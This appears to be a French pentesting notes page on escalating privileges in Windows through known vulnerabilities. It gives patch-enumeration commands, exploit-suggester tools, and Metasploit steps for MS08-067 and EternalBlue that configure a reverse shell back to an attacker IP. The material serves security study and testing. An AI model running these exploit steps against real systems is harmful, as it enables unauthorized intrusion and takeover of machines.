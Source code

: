 # 09-Exploitation des Vulnérabilités Connues

Cette section traite de l'identification et de l'exploitation des vulnérabilités logicielles connues dans le système d'exploitation Windows, les services ou les applications installées.

## Identification des Vulnérabilités

**1. Énumération du Système et des Patchs**
```powershell
systeminfo
wmic qfe get HotFixID,InstalledOn,Description # Lister les patchs installés (KB)
Get-HotFix | ft -AutoSize
[environment]::OSVersion.Version # Version et build de Windows
```

**2. Outils d'Énumération Automatisée**
*   **WinPEAS :** Peut identifier des vulnérabilités courantes et des exploits potentiels.
*   **Windows Exploit Suggester (plusieurs versions) :**
    *   `wesng` (Windows Exploit Suggester Next Generation) : https://github.com/bitsadmin/wesng
        ```bash
        # Sur Kali, après avoir obtenu la sortie de systeminfo de la cible
        wesng --update
        wesng -s systeminfo.txt
        ```
    *   Sherlock : https://github.com/rasta-mouse/Sherlock
        ```powershell
        # Sur la cible
        # Import-Module .\Sherlock.ps1
        # Find-AllVulns
        ```

**3. Recherche Manuelle de Vulnérabilités**
Une fois la version de l'OS, les services en cours d'exécution et les applications installées identifiés, recherchez des exploits publics sur :
*   Exploit-DB : https://www.exploit-db.com/
*   CVE Details : https://www.cvedetails.com/
*   Google (ex: "Windows Server 2016 build X privilege escalation exploit")

## Exploitation des Vulnérabilités du Système d'Exploitation

### Exemple : MS08-067 (NetAPI)
Vulnérabilité affectant les anciennes versions de Windows (XP, Server 2003).
(Extrait de `02-windows-user-privileges.md`)
```bash
# Utiliser Metasploit
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <IP_CIBLE>
set LHOST <IP_ATTAQUANT> # Pour le payload de reverse shell
# set PAYLOAD windows/meterpreter/reverse_tcp (ou autre)
exploit
```

### Exemple : MS17-010 (EternalBlue)
Affecte Windows 7, Server 2008 R2, et d'autres versions non patchées.
```bash
# Metasploit
use exploit/windows/smb/ms17_010_eternalblue
# Configurer RHOSTS, LHOST, LPORT, PAYLOAD
exploit
```

## Exploitation des Vulnérabilités des Applications Installées

### Exemple : Docker pour Windows (CVE-2019–15752)
Une vulnérabilité dans Docker Desktop Community Edition avant 2.1.0.1 permettait une élévation de privilèges.
(Extrait de `04-things-to-add.md`)
> "Nous pouvons également rencontrer des situations où nous atterrissons sur un hôte exécutant une application vulnérable qui peut être utilisée pour élever les privilèges par interaction de l'utilisateur. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) en est un excellent exemple. Il s'agissait d'une vulnérabilité dans Docker Desktop Community Edition avant la version 2.1.0.1"

L'exploitation spécifique dépendrait des détails de la CVE. Généralement, cela impliquerait d'interagir avec le service Docker d'une manière spécifique pour déclencher la vulnérabilité.

## Applications GUI Insecures
Recherchez les applications avec interface graphique (GUI) qui s'exécutent en tant que SYSTEM ou un autre utilisateur privilégié et qui pourraient avoir des fonctionnalités exploitables (par exemple, une fonction "exécuter une commande", une possibilité d'écrire des fichiers dans des emplacements arbitraires, ou des vulnérabilités de type "file open dialog" qui permettent de naviguer et d'exécuter des fichiers).

## Systèmes en Fin de Vie (End of Life - EOL)
Les systèmes qui ne reçoivent plus de mises à jour de sécurité sont des cibles de choix.
```powershell
# Identifier les systèmes EOL
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```
**Systèmes EOL courants et vulnérabilités associées :**
*   **Windows XP / Server 2003 :** Très vulnérables, MS17-010 (si SMBv1 activé), MS08-067, et de nombreux autres.
*   **Windows 7 / Server 2008 R2 (EOL Jan 2020, ESU jusqu'à Jan 2023/2024 pour certains) :** MS17-010, et d'autres vulnérabilités non patchées si les mises à jour ESU ne sont pas appliquées.
*   **Windows 8 / Server 2012 (EOL Jan 2023) :** Rechercher les CVE spécifiques non patchées.

Pour les systèmes EOL, les outils comme `Windows Exploit Suggester` sont particulièrement utiles car de nombreux exploits publics sont disponibles. 